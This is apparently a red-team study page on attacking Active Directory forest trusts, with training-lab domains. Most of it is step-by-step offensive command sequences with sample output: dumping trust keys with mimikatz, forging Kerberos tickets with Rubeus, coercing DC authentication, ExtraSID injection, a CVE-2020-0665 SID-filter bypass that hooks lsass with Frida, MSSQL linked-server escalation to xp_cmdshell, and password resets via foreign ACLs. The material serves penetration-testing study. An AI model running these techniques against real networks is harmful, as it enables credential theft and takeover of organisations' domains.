




---
tags:
  - active-directory
  - cape
  - crtp
---

# Inter-Forest

In a cross-forest AD environment, the mechanics of trust relationships mirror those of [cross-domain trusts](cross-domain.md). However, while cross-domain trust relationships are implicit within a forest, **cross-forest trusts must be explicitly configured by administrators**. This deliberate configuration allows two separate forest roots to authenticate users and resources across organizational boundaries.

Trust tickets operate in the same way in **forest trusts** (transitive trust between two forest root domains) as they do between domains. If DA or EA access is obtained on one forest root, it becomes possible to impersonate similarly privileged users in the trusted forest, assuming the trust relationship permits it and the conditions are met.

A critical difference is that unlike domain trust keys, which rotate automatically (typically every 30 days), **the key used in a forest trust remains static unless manually changed**. This makes it an attractive target for long-term persistence, especially when combined with ticket forging techniques.

To defend against privilege escalation across forest boundaries, AD implements [**SID filtering**](https://activedirectoryfaq.com/2015/10/active-directory-sid-filtering/). This mechanism **strips certain well-known SIDs from tickets issued across a forest trust**. Specifically, SIDs in the range typically associated with built-in privileged groups (e.g., DAs starting at RID 500 and DCs at 1000) are filtered out.&#x20;

As a result, attempts to embed these SIDs into a forged ticket from a foreign forest will be blocked by default.

<div align="left"><figure><figcaption></figcaption></figure></div>

However, this filtering can be bypassed if misconfigurations exist, especially when high-privileged groups are custom-created and assigned SIDs outside the filtered range.&#x20;

This scenario often arises in environments where administrators create new groups with elevated permissions but do not consider how SID filtering might interact with these roles. If a forest trust exists, there is usually a reason for it, and that reason often introduces risk if not properly managed.


```powershell
# Extract the forest trust key (RC4)
SafetyKatz.exe "lsadump::trust /patch"
SafetyKatz.exe "lsadump::lsa /patch"
SafetyKatz.exe "lsadump::dcsync /user:dcorp\ecorp$" "exit"

# Forge a cross-realm TGT
Rubeus.exe silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<current-domain-SID> /ldap /user:Administrator /nowrap

# Forge a TGS using the forged TGT
Rubeus.exe asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:doI...2Fs

# Access the target resource
dir \\eurocorp-dc.eurocorp.local\<explicitly-shared-share>\
```


While enumeration of external forests via service tickets is noisy and easily detected, it remains the only practical method for mapping trust paths in a red team engagement without direct access to forest-wide enumeration tools.

## Trust Account

When a one-way outbound trust is established between two forests, e.g. from `mollysec.local` to `rigassec.local`, a trust account (e.g. `mollysec$`) is automatically created in the latter. This trust account possesses standard domain user privileges within Forest B and represents a potential attack vector for gaining unauthorized access to the trusted forest.

The credentials of `rigassec$` can be extracted from a DC in either of the domains. The following example demonstrates an outbound trust from `mollysec.local` to `rigassec.local`:


```powershell
# Enumerate trust details from Logistics DC02
> Get-ADTrust -Identity rigassec.local                                  

Direction               : Outbound                                              
DisallowTransivity      : False                                                 
DistinguishedName       : CN=RIGASSEC.LOCAL,CN=System,DC=mollysec,DC=local           
ForestTransitive        : True                                                                                                
Name                    : RIGASSEC.LOCAL                                           
ObjectClass             : trustedDomain                                                        
SelectiveAuthentication : False                                                 
SIDFilteringForestAware : False                                                 
SIDFilteringQuarantined : False                                                 
Source                  : DC=mollysec,DC=local                                    
Target                  : RIGASSEC.LOCAL          
```


Due to the one-way trust configuration, `rigassec.local` cannot be enumerated directly from `mollysec.local`.

<div align="left"><figure><figcaption></figcaption></figure></div>

However, compromising the trust account (`mollysec$`) enables enumeration and establishes a foothold in the target domain.

```powershell
# Dump the trust account's credentials in the source domain (mollysec.local)
> .\mimikatz.exe "lsadump::trust /patch" "exit"
...
Current domain: MOLLYSEC.LOCAL (MOLLYSEC / S-1-5-21-186204973-2882451676-2899969076)
Domain: RIGASSEC.LOCAL (RIGASSEC / S-1-5-21-983561975-2685977214-3442977283)
[  In ] MOLLYSEC.LOCAL -> RIGASSEC.LOCAL
[ Out ] RIGASSEC.LOCAL -> MOLLYSEC.LOCAL
...
* rc4_hmac_nt       0EF3298EDFC59E0CD07C56D829EEA9C6
[ In-1] MOLLYSEC.LOCAL -> RIGASSEC.LOCAL
[Out-1] RIGASSEC.LOCAL -> MOLLYSEC.LOCAL
...
* rc4_hmac_nt       563DA6889822769AEB94394ADFFB37C5
```

Mimikatz outputs both `NewPassword` and `OldPassword` attributes from the Trusted Domain Object (TDO). Trust keys rotate automatically every 30 days, so both values may be valid during the rotation period.


```powershell
# Authenticate to the target domain (rigassec.local) as the trust account
> .\Rubeus.exe asktgt /user:mollysec$ /domain:rigassec.local /rc4:0EF3298EDFC59E0CD07C56D829EEA9C6 /ptt

# Pull BloodHound data from the target domain (rigassec.local)
> .\SharpHound.exe -c All -d rigassec.local

# Kerberoast account in the target domain (rigassec.local)
> .\Rubeus.exe kerberoast /domain:rigassec.local
```


## Uncostrained Delegation

DCs have [unconstrained delegation](delegations/#unconstrained) (UD) enabled by default. When UD is configured on a service account in one forest (`mollysec.local`) that trusts another (`rigassec.local`), the service can impersonate users from the trusted forest by capturing their TGTs.


Microsoft implemented significant security changes to mitigate this attack vector:

* [**July 9, 2019 Update**](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)**:** TGT delegation is now disabled by default for both new and existing forest and external trusts.
* **Current State:** This attack is only feasible if the `EnableTGTDelegation` flag is explicitly set to `Yes`, reverting to a less secure configuration


Users are susceptible to TGT theft unless they meet one of the following criteria:

* The `Account is sensitive and cannot be delegated` flag is enabled on their account
* They are members of the `Protected Users` security group

For this attack to succeed, the following conditions must be met:

1. **TGT Delegation Enabled:** The `EnableTGTDelegation` flag must be explicitly set to `Yes` on the trust (default: disabled post-July 2019)
2. [**Selective Authentication**](https://www.sys-manage.com/Blog/selective-authentication-for-computer-profile-migration#domain-trusts-and-selective-authentication) **Disabled:** The trust must not use selective authentication
3. **Two-Way Trust:** A bidirectional trust relationship must be configured between the forests

The authentication level of a trust is determined by the `trustAttributes` flags of the Trusted Domain Object (TDO):

<table><thead><tr><th width="183">Authentication Level</th><th>Description</th></tr></thead><tbody><tr><td><strong>Forest-wide</strong></td><td>Allows unrestricted authentication from all principals in the trusted forest to resources in the trusting forest. This is the least secure level and completely opens one forest to another (authentication-wise, not access-wise).</td></tr><tr><td><strong>Domain-wide</strong></td><td>Allows unrestricted authentication from principals in the trusted domain to resources in the trusting domain. More secure than forest-wide authentication as it restricts access to a specific domain.</td></tr><tr><td><strong>Selective</strong></td><td>Allows only specific users in the trusted domain to access resources in the trusting domain. Most secure option requiring explicit "<code>Allowed-To-Authenticate</code>" extended right in the resource's DACL.</td></tr></tbody></table>

**Important Notes:**

* Trusts within a forest always use Forest-Wide Authentication and this cannot be disabled
* Authentication level depends on the trust relationship type and configuration flags

If a DC in one forest (`mollysec.local`) is compromised, it can be used to extract TGTs from accounts in a trusted forest (`rigassec.local`).

<div align="left"><figure><figcaption></figcaption></figure></div>


```powershell
# Monitor ticket on the compromised DC (mollysec.local)
.\Rubeus.exe monitor /interval:5 /nowrap

# Coerce authentication from the target DC (rigassec.local)
.\SpoolSample.exe rigassec-dc01.rigassec.local mollysec-dc01.mollysec.local

# Impersonate the target DC
.\Rubeus.exe renew /ticket:doI... /ptt

# DCSync
.\mimikatz.exe "lsadump::dcsync /domain:rigassec.local /user:administrator" "exit"
```


## SID History

### SID History Enumeration

When a user migrates from one domain to another in a different forest, its SID History attribute retains the SIDs from the original domain.&#x20;

We can enumerate users of the current (compromised) domain (`rigassec.local`) that have SID History enabled which might retain elevated privileges in a previous domain that they were part of (`mollysec.local`):


```powershell
>  Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory

DistinguishedName : CN=henry,CN=Users,DC=rigassec,DC=local
Enabled           : True
SamAccountName    : henry
SID               : S-1-5-21-2432454459-173448545-3375717855-2601
SIDHistory        : {S-1-5-21-186204973-2882451676-2899969076-2603} # Privileged group in the old domain

# Change the user's password
> net user henry 'Password123!'

# Create a sacrificial process
> ./Rubeus createnetonly /program:powershell.exe /show

# Get TGT
> .\Rubeus.exe asktgt /user:henry /password:'Password123!' /domain:rigassec.local /ptt
```


### ExtraSID Injection

The intra-forest [Extra SIDs attack](cross-domain.md#extrasid-injection) can be also done if SID History is enabled between forests. The only difference is that it can't be performed using the EA group, but only if there is a privileged group with a RID > 1000.

In the below scenario, we have compromised `mollysec.local` and we want to move laterally to `rigassec.local`.&#x20;

The presence of `TREAT_AS_EXTERNAL` in `TrustAtrributes` indicates that SID history is enabled:


```powershell
# List the domain trusts (PowerView)
> Get-DomainTrust -domain rigassec.local
SourceName      : rigassec.local
TargetName      : mollysec.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE
TrustDirection  : Bidirectional
```


Let's assume we have identified the `External Admins` privileged group within `rigassec.local` with a RID of 2603. The pre-requisites are identical with those in the intra-forest Extra SID attack; the only difference is that we will use the `External Admins` group instead of EA:


```powershell
# SID of the target group
> Get-ADGroup -Identity "External Admins" -Server "rigassec.local"
DistinguishedName : CN=External Admins,CN=Users,DC=rigassec,DC=local
GroupCategory     : Security
GroupScope        : Universal
SID               : S-1-5-21-186204973-2882451676-2899969076-2603

# Inject SID
> .\Rubeus.exe golden /rc4:119885a9af438d1ef0d7543bed8b9ea1 /domain:mollysec.local /sid:S-1-5-21-2432454459-173448545-3375717855 /sids:S-1-5-21-186204973-2882451676-2899969076-2603 /user:poppy /ptt

# Same with mimikatz
> .\mimikatz.exe "kerberos::golden /user:poppy /domain:mollysec.local  /sid:S-1-5-21-2432454459-173448545-3375717855 /sids:S-1-5-21-186204973-2882451676-2899969076-2603 /krbtgt:119885a9af438d1ef0d7543bed8b9ea1 /ptt" "exit"
```


## SID Filter Bypass

> [Active Directory forest trusts part 2 - Trust transitivity and finding a trust bypass](https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/)

### Overview

[CVE-2020-0665](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-0665) (patched February 2020) exploits two-way transitive forest trusts to bypass SID filtering.&#x20;

When `mollysec.local` trusts `rigassec.local`, users in the latter can normally access resources in the former.&#x20;

This vulnerability allows an attacker who has compromised Forest A (`mollysec.local`) to gain privileged access to domain-joined servers in Forest B (`rigassec.local`) by manipulating trust information.

### Trust Mechanism

When a new subdomain is added in `mollysec.local`, `rigassec.local` automatically discovers it within 24 hours via the [`NetrGetForestTrustInformation`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/63bab11c-a902-44a2-9cd7-221357788483) remote procedure call (RPC).&#x20;

This trust information is stored in the [`msDS-TrustForestTrustInfo`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/96e44639-eb3e-48c3-a565-1d67cceb3bad) attribute of the trusted domain object in ADUC and can be parsed using [`ftinfo.py`](https://github.com/dirkjanm/forest-trust-tools/blob/master/ftinfo.py) from the [forest-trust-tools](https://github.com/dirkjanm/forest-trust-tools) repository.

* [ ] Insert SS with the binary value of the attr and code block with the script's change (line 14)

```bash
$ python3 ftinfo.py 

FOREST_TRUST_INFO
Version: {1}
Recordcount: {3}
Records: {[...]}
Domain b'puppy.mollysec.local' has SID S-1-5-21-3878752286-62540090-653003637
Domain b'mollysec.local' has SID S-1-5-21-2432454459-173448545-3375717855
```

### Prerequisites


This attack cannot compromise a DC in the trusted forest (Forest B) because a DC's local SAM domain is only active during Directory Services Restore Mode (DSRM), which does not satisfy the conditions for exploitation.


* DC01 (`mollysec-dc01.mollysec.local`) and DC02 (`rigassec-dc01.rigassec.local`) must have a two-way transitive trust.
* The compromised domain (`mollysec.local`) must have at least one child domain (`puppy.mollysec.local`).
* The target domain (`rigassec.local`) must have at least one domain-joined server or workstation.

### Attack Process

An attacker in the trusting forest can forge cross-realm tickets by injecting a malicious SID into the trust relationship:

1. **Spoof a subdomain in Forest A** (`mollysec.local`) with the same SID as the local SAM domain of a target server in Forest B (`rigassec.local`).
2. **Wait for Forest B to synchronize** the forged trust information (up to 24 hours).
3. **Create an inter-realm TGT** that includes the SID of the LA on the target server in Forest B.
4. **Request a TGS** ticket from Forest B's DC.
5. **Authenticate to the target server** in Forest B using the issued TGS.

Enumerate SIDs and trust information:

```powershell
# Get local SAM SID from the target server in Forest B
> python getlocalsid.py mollysec.local/Administrator:'password'@SQL02.rigassec.local SQL02
Found local domain SID: S-1-5-21-2327345182-1863223493-3435513819

# Get SID of the compromised domain (Forest A)
> lookupsid.py mollysec.local/Administrator:'password'@172.16.118.3 | grep "Domain SID"
[*] Domain SID is: S-1-5-21-2432454459-173448545-3375717855

# Get SID of the subdomain (Forest A)
> lookupsid.py mollysec.local/Administrator:'password'@172.16.118.20 | grep "Domain SID"
[*] Domain SID is: S-1-5-21-3878752286-62540090-653003637

# Get GUID for the target domain (Forest B)
> Get-ADObject -LDAPFilter '(objectClass=trustedDomain)' | select name,objectguid

name                   objectguid
----                   ----------
rigassec.local         8d52f9da-361b-4dc3-8fa7-af5f282fa741

# Extract inter-realm trust key
> .\mimikatz.exe "lsadump::dcsync /guid:{8d52f9da-361b-4dc3-8fa7-af5f282fa741}" "exit"
aes256_hmac       457817808ee723ca03fe7a6791f293b9afd5901790ba4d5e9d93073e4c95ee81
rc4_hmac_nt       161a52be82db4c7b6cf26743bd32381b
```

To deceive Forest B into accepting the forged SID, inject the target server's local SAM SID into the subdomain's trust information using [`frida_intercept.py`](https://github.com/dirkjanm/forest-trust-tools/blob/master/frida_intercept.py). Update the `var buf1` (original subdomain SID) and `var newsid` (target server's local SID) variables with their binary representations.

Convert SID to binary format using [Save-Editor](https://www.save-editor.com/tools/wse_hex.html), [LDAP Explorer](https://www.ldapexplorer.com/en/manual/103051105-tools-converter-sids.htm), or this Python script:


```python
input_string = 'S-1-5-21-2327345182-1863223493-3435513819'
prefix = 'S-1-5-21-'

components = input_string.split(prefix, 1)
if len(components) > 1:
    remaining_string = components[1]
    split_values = remaining_string.split('-')
    output_list = []
    for i in split_values:
        decimal_number = int(i)
        hexadecimal_value = hex(decimal_number)[2:].zfill(8)
        little = ' '.join([hexadecimal_value[i:i+2] for i in range(len(hexadecimal_value)-2, -2, -2)])
        bytes_list = little.split()
        formatted_bytes = ', '.join([f"0x{byte.upper()}" for byte in bytes_list]) 
        output_list.append(formatted_bytes)
    final_output = ', '.join(output_list)
    print("0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, " + final_output)
```


**Binary SID mappings:**

| SID                                       | Binary Representation                                                                                                                          |
| ----------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| S-1-5-21-3878752286-62540090-653003637    | 0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, 0x1E, 0x10, 0x31, 0xE7, 0x3A, 0x49, 0xBA, 0x03, 0x75, 0x0B, 0xEC, 0x26 |
| S-1-5-21-2327345182-1863223493-3435513819 | 0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, 0x1E, 0x78, 0xB8, 0x8A, 0xC5, 0x88, 0x0E, 0x6F, 0xDB, 0xC7, 0xC5, 0xCC |

Update `frida_intercept.py` variables:


```python
// Original subdomain SID (to be replaced)
var buf1 = [0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, 0x1E, 0x10, 0x31, 0xE7, 0x3A, 0x49, 0xBA, 0x03, 0x75, 0x0B, 0xEC, 0x26];
// Target server's local SAM SID (replacement)
var newsid = [0x01, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00, 0x05, 0x15, 0x00, 0x00, 0x00, 0x1E, 0x78, 0xB8, 0x8A, 0xC5, 0x88, 0x0E, 0x6F, 0xDB, 0xC7, 0xC5, 0xCC];
```


Execute SID injection:


```powershell
# Verify original subdomain SID
> python3 gettrustinfo.py mollysec.local/rigassec.local@DC01 -hashes :c586031a224f252a7c8a31a6d2210cc1 -target 172.16.118.3
...
                DomainInfo:                     
                    Sid:                            
                        SubAuthority:                   
                            [
                                 21,
                                 3878752286,
                                 62540090,
                                 653003637,
                            ] 
                    DnsName:                         'child.mollysec.local' 
                    NetbiosName:                     'CHILD' 

# Obtain SYSTEM privileges
> .\PsExec.exe -s -i powershell.exe

# Run Frida interception (leave running in background)
> python frida_intercept.py lsass.exe

# Confirm SID has been replaced
> python3 gettrustinfo.py mollysec.local/rigassec.local@DC01 -hashes :c586031a224f252a7c8a31a6d2210cc1 -target 172.16.118.3
...
                DomainInfo:                     
                    Sid:                            
                        SubAuthority:                   
                            [
                                 21,
                                 2327345182,
                                 1863223493,
                                 3435513819,
                            ] 
                    DnsName:                         'child.mollysec.local' 
                    NetbiosName:                     'CHILD' 
```


After up to 24 hours, Forest B's DC will call `NetrGetForestTrustInformation` and retrieve the poisoned trust information, adding the injected SID to its list of allowed SIDs. Then we can forge the tickets and access the target:


```powershell
# Create a golden inter-realm TGT with the injected SID
> .\mimikatz.exe "kerberos::golden /domain:mollysec.local /sid:S-1-5-21-2432454459-173448545-3375717855 /user:user1 /target:rigassec.local /service:krbtgt /sids:S-1-5-21-2327345182-1863223493-3435513819-500 /aes256:457817808ee723ca03fe7a6791f293b9afd5901790ba4d5e9d93073e4c95ee81" "exit"

# Request a TGS for the target service
> .\kekeo.exe "tgs::ask /tgt:ticket.kirbi /service:cifs/SQL02.rigassec.local@RIGASSEC.LOCAL /kdc:DC02.rigassec.local /ptt" "exit"

# Access the target server with elevated privileges
> dir \\SQL02.rigassec.local\c$
```


## MSSQL

In an AD environment, lateral movement can occur through MSSQL [linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/linked-servers-database-engine?view=sql-server-ver17), a feature that allows executing commands against remote data sources.&#x20;

### Privileged Access

If a user from the compromised forest (`mollysec.local`) has remote login permissions to a target linked forest (`rigassec.local`) with system administrator (`sa`) privileges, the attacker gains the highest level of access on the remote SQL server, enabling full control over the target SQL instance:


```powershell
# Enumerate SQL Server Links
> import-module .\PowerUpSQL.ps1
> Get-SQLServerLink
...
ComputerName           : SQL01
Instance               : SQL01
DatabaseLinkId         : 1
DatabaseLinkName       : SQL02\SQLEXPRESS
DatabaseLinkLocation   : Remote
LocalLogin             : mollysec\poppy
RemoteLoginName        : sa

# Confirm login rights
> Get-SQLQuery  -Query "EXEC sp_helplinkedsrvlogin"
Linked Server    Local Login         Is Self Mapping Remote Login
-------------    -----------         --------------- ------------
SQL02\SQLEXPRESS mollysec\poppy      False           sa
```


Interact with MSSQL server with SQL Server Management Studio ([SSMS](https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-ver16)) or [heidiSQL](https://www.heidisql.com/):


```sql
-- Check permissions
select * from openquery("SQL02\SQLEXPRESS",'select IS_SRVROLEMEMBER(''sysadmin'')')

-- Enable xp_cmdshell at the target server
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQL02\SQLEXPRESS"

-- Confirm that xp_cmdshell was enabled
EXECUTE('xp_cmdshell "whoami"') AT "SQL02\SQLEXPRESS"
```


Similarly, from Linux:


```bash
# Connect to SQL01
$ mssqlclient.py poppy@192.19.249.18 -windows-auth
...
# Enumerate Links
SQL (mollysec\poppy  guest@master)> enum_links
...   
SQL02\SQLEXPRESS  SQLNCLI  SQL Server  SQL02\SQLEXPRESS  NULL  NULL  NULL      

Linked Server      Local Login           Is Self Mapping   Remote Login   
----------------   -------------------   ---------------   ------------   
SQL02\SQLEXPRESS   mollysec\poppy                0   sa       

# Connect to SQL02
SQL (mollysec\poppy  guest@master)> use_link "SQL02\SQLEXPRESS"

# Enable xp_cmdshell
SQL >"SQL02\SQLEXPRESS" (sa  dbo@master)> enable_xp_cmdshell

# Confirm that it was enabled
SQL >"SQL02\SQLEXPRESS" (sa  dbo@master)> xp_cmdshell whoami
output                        
---------------------------   
nt service\mssql$sqlexpress     
```


### Trustworthy Databases

Trustworthy databases are databases with the [`TRUSTWORTHY`](https://learn.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property?view=sql-server-ver17) property enabled, allowing code within the database to access resources outside its scope under the context of the database owner.&#x20;

A user from the compromised domain (`mollysec.local`) with public privileges on an SQL user in the linked forest (`rigassec.local`) can exploit this configuration. By enumerating trustworthy databases and verifying `db_owner` rights, an attacker can enable `xp_cmdshell` and execute commands as `sa`.

```powershell
# Enumerate links
> Get-SQLServerLink
...
ComputerName           : SQL01
Instance               : SQL01
DatabaseLinkId         : 1
DatabaseLinkName       : SQL02\\SQLEXPRESS
DatabaseLinkLocation   : Remote
LocalLogin             :
RemoteLoginName        :
```


```sql
-- Login ID name
select * from openquery("SQL02\\SQLEXPRESS",'select SUSER_NAME()')
# sec-dbuser

-- SA rights
select * from openquery("SQL02\\SQLEXPRESS",'select IS_SRVROLEMEMBER(''sysadmin'')')

-- Public role
select * from openquery("SQL02\\SQLEXPRESS",'select IS_SRVROLEMEMBER(''public'')')

-- List databases
select * from openquery("SQL02\\SQLEXPRESS",'select name FROM master.dbo.sysdatabases')

-- Trustworthy databases
select * from openquery("SQL02\\SQLEXPRESS",'SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;')

-- Check database ownership
EXEC ('sp_helpuser') AT "SQL02\\SQLEXPRESS"

-- Check ownership of trustworthy databases
select * from openquery("SQL02\\SQLEXPRESS",'SELECT name as database_name , SUSER_NAME(owner_sid) AS owner , is_trustworthy_on AS TRUSTWORTHY from sys.databases;')
```


The RPC Out option in MSSQL determines whether the linked server can receive outbound Remote Procedure Call (RPC) requests from the local server. When enabled, this allows the local server to execute stored procedures and commands on the remote linked server.&#x20;

This functionality can be abused to chain commands across multiple linked servers, effectively pivoting through the network and executing code on systems we don't have direct access to.


```powershell
# Check if RPC out is enabled
select is_rpc_out_enabled from sys.servers where name='SQL02\\SQLEXPRESS'

# Create a stored procedure to assign the sysadmin (sa) role to sec-dbuser
EXEC ('CREATE PROCEDURE sp_escalate WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember ''sec-dbuser'',''sysadmin''') AT "SQL02\\SQLEXPRESS"

# Verify permissions
EXEC ('sp_escalate;SELECT IS_SRVROLEMEMBER(''sysadmin'');SELECT SUSER_NAME()') AT "SQL02\\SQLEXPRESS"

# Enable xp_cmdshell
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQL02\\SQLEXPRESS"

# RCE
EXECUTE('xp_cmdshell "whoami"') AT "SQL02\\SQLEXPRESS"
```


Similarly, from Linux:


```bash
# Connect to SQL01
$ mssqlclient.py htb-student@10.129.229.188 -windows-auth

# Connect to the target server
> use_link "SQL02\\SQLEXPRESS"

# Enumerate available logins
> enum_logins

# Enumerate trustworthy dbs
> enum_db

# Enumerate users
> enum_users

# Enumerate ownership of trustworthy databases
> SELECT name as database_name, SUSER_NAME(owner_sid) AS owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases;

# Select the owned database
> USE "sec-reports"

# Create a store procedure to assign the sa role to the current user
> CREATE PROCEDURE sp_escalate WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'sec-dbuser','sysadmin'

# Execute the stored procedure
> EXEC sp_escalate

# Verify permissions
> SELECT is_srvrolemember('sysadmin')

# Enable xp_cmdshell
> exec master.dbo.sp_configure "show advanced options",1;RECONFIGURE;exec master.dbo.sp_configure "xp_cmdshell", 1;RECONFIGURE;

# RCE
> exec master..xp_cmdshell "whoami"
```


## Foreign Groups & Principals

### Foreign Groups

Similar to [Intra-Forest foreign groups](cross-domain.md#foreign-groups), a group in one forest (`mollysec.local`) with Domain Local scope can contain members from a domain in a different forest (`rigassec.local`).


```powershell
# Enumerate foreign principals
> Get-DomainObject -LDAPFilter '(objectclass=ForeignSecurityPrincipal)' -Domain rigassec.local 
...
name                   : S-1-5-21-2432454459-173448545-3375717855-3601

# Enumerate foreign group members
> Get-DomainForeignGroupMember -Domain rigassec.local
...
MemberDomain            : rigassec.local
GroupName               : svc_admins
MemberName              : S-1-5-21-2432454459-173448545-3375717855-3601

# Convert SID to username
> ConvertFrom-SID S-1-5-21-2432454459-173448545-3375717855-3601
MOLLYSEC\poppy

# Create a sacrificial process
> ./Rubeus createnetonly /program:powershell.exe /show

# Get a TGT as the target user
> .\Rubeus.exe asktgt /user:poppy /password:'Password123!' /domain:mollysec.local /ptt
```


### Foreign Principals

Similar to [Intra-Forest foreign principals](cross-domain.md#foreign-principals), a user in one forest (`mollysec.local`) can have ACLs on an object belonging to a domain in a different forest (`rigassec.local`).


```powershell
# Enumerate ACLs of the target user (PowerView)
> $sid = Convert-NameToSid poppy
> Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain rigassec.local | ? {$_.SecurityIdentifier -eq $sid}
...
ObjectDN              : CN=henry,CN=Users,DC=rigassec,DC=local
ActiveDirectoryRights : GenericAll

# Create a sacrificial process
> ./Rubeus createnetonly /program:powershell.exe /show

# Get a TGT as the target user
> .\Rubeus.exe asktgt /user:poppy /password:'Password123!' /domain:mollysec.local /ptt

# Reset the target user's password (PowerView)
> $pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
> Set-DomainUserPassword -identity henry -AccountPassword $pass -domain rigassec.local -verbose

# Obtain a TGT as the target user
> .\Rubeus.exe asktgt /user:henry /password:'Password123!' /domain:rigassec.local /ptt
```


## PAM Trusts

[Privileged Access Management (PAM)](https://learn.microsoft.com/en-us/microsoft-identity-manager/pam/privileged-identity-management-for-active-directory-domain-services) uses a dedicated **Bastion Forest** (Administrative Forest) to securely manage privileged access in a Production Forest. A one-way PAM trust is established from the Production to the Bastion Forest, allowing administrators in the latter to obtain high-privilege access without modifying group memberships or ACLs in the former.

<div align="left"><figure><figcaption><p>One-way trust between a User/Production and a Bastion Forest (<a href="https://www.labofapenetrationtester.com/2019/04/abusing-PAM.html">source</a>).</p></figcaption></figure></div>

This works through **Shadow security principals** created in the Bastion Forest, which map to the SIDs of privileged groups (like DAs or EAs) in the Production Forest. When Bastion Forest users are added to these shadow principals, they temporarily inherit the corresponding privileges in the Production Forest.

<figure><figcaption><p>How Shadow Security Principals work (<a href="https://learn.microsoft.com/en-us/microsoft-identity-manager/pam/privileged-identity-management-for-active-directory-domain-services#how-does-mim-pam-work">source</a>).</p></figcaption></figure>

In the below example:

1. Create a Shadow Principal (`Molly`) with the SID of the EA group of the Production Forest (`prod.local`).
2. Make the Administrator of the Bastion Forest (`bastion.local`) a member of `Molly`.

With this configuration, the `Administrator` of `bastion.local` has EA rights on `prod.local`.


```powershell
# Get the SID for the Enterprise Admins group of the production forest
$ShadowPrincipalSid = (Get-ADGroup -Identity 'Enterprise Admins' -Properties ObjectSID -Server prod.local).ObjectSID

# Container location
$Container = 'CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=bastion,DC=local'

# Create the Shadow Principal
New-ADObject -Type msDS-ShadowPrincipal -Name "Molly" -Path $Container -OtherAttributes @{'msDS-ShadowPrincipalSid'= $ShadowPrincipalSid}

# Add the Administrator of the Bastion Forest as a member of the Shadow Principal
Set-ADObject -Identity "CN=Molly,CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=bastion,DC=local" -Add @{'member'="CN=Administrator,CN=Users,DC=bastion,DC=local"} -Verbose	
```


If a Bastion forest is compromised, all of its associations can be also compromised.


```powershell
# Enumerate Shadow Principals
> Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
...
Name                    : Molly
member                  : {CN=Administrator,CN=Users,DC=bastion,DC=local}
msDS-ShadowPrincipalSid : S-1-5-21-1490426177-2790079739-1572189234-519
```


The [`msDS-ShadowPrincipalSid`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/07772a36-6e4c-483d-bf52-535ae1f4974b) attribute contains the SID of the principal from the Production Forest, in this case, the EA group of `prod.local`.
